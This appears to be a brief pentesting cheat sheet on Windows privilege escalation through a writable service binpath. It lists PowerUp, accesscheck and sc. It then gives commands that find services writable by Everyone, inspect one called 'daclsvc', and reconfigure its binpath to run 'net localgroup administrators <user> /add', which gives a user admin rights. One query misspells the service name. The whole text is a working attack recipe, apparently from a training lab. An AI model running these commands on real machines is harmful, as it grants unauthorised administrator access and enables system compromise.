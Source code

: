 # Privilege Escalation via Windows Service binpath
- PowerUp
- accesscheck (sysinternals)
- sc

Using Accesscheck to find items we can write to as Everyone, suppressing errors and displaying service names
```
accesscheck64.exe -uwcv Everyone *
```
```
accesscheck64.exe -uwcv daclsvc
```
```
sc qc daclsv
```
```
sc config daclsvc binpath= "net localgroup administrators <user> /add"
```
